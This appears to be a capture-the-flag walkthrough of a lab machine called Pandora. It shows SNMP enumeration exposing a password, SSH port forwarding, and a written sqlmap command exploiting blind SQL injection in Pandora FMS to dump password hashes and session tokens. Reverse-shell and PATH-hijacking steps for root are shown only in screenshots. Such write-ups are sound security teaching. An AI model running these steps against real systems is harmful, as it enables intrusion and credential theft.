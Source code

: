 # Pandora

**January 18, 2022**

Nmap scan to discover open ports and service versions.

```c
bracketz:~/Desktop $ nmap -sV -sC 10.10.11.136
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-10 11:49 -03
Nmap scan report for 10.10.11.136
Host is up (0.18s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)
|_  256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Play | Landing
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.23 secon
```

With UDP Scan we found the SNMP port open. 

![Untitled](Pandora/Untitled.png)

```c
sudo apt-get install snmp/rolling
```

### Enumerating SNMP

[https://ktflash.gitbooks.io/ceh_v9/content/43_snmp_enumeration.html](https://ktflash.gitbooks.io/ceh_v9/content/43_snmp_enumeration.html)

```c
snmpwalk -v 1 -c public 10.10.11.136
```

![Untitled](Pandora/Untitled%201.png)

Probably the password of the user Daniel:

![Untitled](Pandora/Untitled%202.png)

```c
HotelBabylon23
```

The machine has another webserver, lets do a port forwarding

![Untitled](Pandora/Untitled%203.png)

```c
sudo ssh -N -L 80:127.0.0.1:80 daniel@10.10.11.136
```

Vhost configuration

![Untitled](Pandora/Untitled%204.png)

Adding host to test:

![Untitled](Pandora/Untitled%205.png)

Port forwarding 

![Untitled](Pandora/Untitled%206.png)

Showing the pandora console:

![Untitled](Pandora/Untitled%207.png)

Password of the site:

![Untitled](Pandora/Untitled%208.png)

Attack vector in chart_generator.php file that uses $_REQUESTS, the article explains more about the exploitation. 

[https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained](https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained)

PHP $_REQUEST is **a PHP super global variable which is used to collect data after submitting an HTML form**

In this case the exploration is a BLIND SQL

![Untitled](Pandora/Untitled%209.png)

Dumping credentials:

```c
sqlmap -u "http://pandora.pandora.htb/pandora_console/include/chart_generator.php" --data="session_id=aaaa" -T "tusuario" -C fullname,firstname,password --dump
```

```c
Database: pandora
Table: tusuario
[3 entries]
+---------------+-----------+----------------------------------+
| fullname      | firstname | password                         |
+---------------+-----------+----------------------------------+
| Daniel        | <blank>   | 76323c174bd49ffbbdedf678f6cc89a6 |
| Matt          | <blank>   | f655f807365b6dc602b31ab3d6d43acc |
| Pandora Admin | <blank>   | ad3f741b04bd5880fb32b54bc4f43d6a |
+---------------+-----------+----------------------------------+
```

Table: tsessions_php

```c
| id_usuario|s:4:"matt";alert_msg|a:0:{}new_chat|b:0; | g4e01qdgk36mfdh90hvcc54umq |
```

Use the cookie and get access to the panel

![Untitled](Pandora/Untitled%2010.png)

Using the serialized object we can get the Admin session with SQL Injection.

![Untitled](Pandora/Untitled%2011.png)

To get the reverse shell just upload a zip file with the malicious script to execute:

Script

![Untitled](Pandora/Untitled%2012.png)

Zipping:

![Untitled](Pandora/Untitled%2013.png)

Uploading:

![Untitled](Pandora/Untitled%2014.png)

Executing commands:

![Untitled](Pandora/Untitled%2015.png)

Trying to find interesting binaries on the machine:

![Untitled](Pandora/Untitled%2016.png)

Download the binary to do reversing we can see that it use a tar, but not use the complete PATH, so we can try PATH injection.

![Untitled](Pandora/Untitled%2017.png)

Doing PATH injection

![Untitled](Pandora/Untitled%2018.png)

It works but we get the matt again

![Untitled](Pandora/Untitled%2019.png)

I reset the machine and try again:

![Untitled](Pandora/Untitled%2020.png)

Exporting PATH again:

![Untitled](Pandora/Untitled%2021.png)

Let’s try to run a SSH session creating a authorized key and put in the path.

![Untitled](Pandora/Untitled%2022.png)

And we get the new session:

![Untitled](Pandora/Untitled%2023.png)

With SSH session the script runs:

![Untitled](Pandora/Untitled%2024.png)

To give the Root user, I do a PATH hijacking using the TAR binary:

![Untitled](Pandora/Untitled%2025.png)